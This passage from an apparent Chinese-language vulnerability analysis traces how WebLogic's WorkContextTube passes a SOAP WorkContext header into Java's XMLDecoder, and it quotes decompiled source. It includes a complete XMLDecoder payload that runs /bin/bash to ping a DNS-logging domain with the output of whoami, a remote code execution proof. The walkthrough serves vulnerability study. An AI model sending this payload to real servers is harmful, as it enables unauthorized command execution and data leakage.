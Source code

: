 将 var3 传递给 readHeaderOld(var3)，继续跟进 readHeaderOld。

var1 的值:

```
com.sun.xml.ws.api.message.Packet@4419bacb Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<java version="1.8.0_131" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope> 
```

![image](img/af2758205f3abd07dc9c0a11ba586858.png)

WorkContextTube.class

```
protected void readHeaderOld(Header var1) {
    try {
        XMLStreamReader var2 = var1.readHeader();
        var2.nextTag();
        var2.nextTag();
        XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
        ByteArrayOutputStream var4 = new ByteArrayOutputStream();
        XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
        var3.bridge(var2, var5);
        var5.close();
        WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
        this.receive(var6);
    } catch (XMLStreamException var7) {
        throw new WebServiceException(var7);
    } catch (IOException var8) {
        throw new WebServiceException(var8);
    }
} 
```
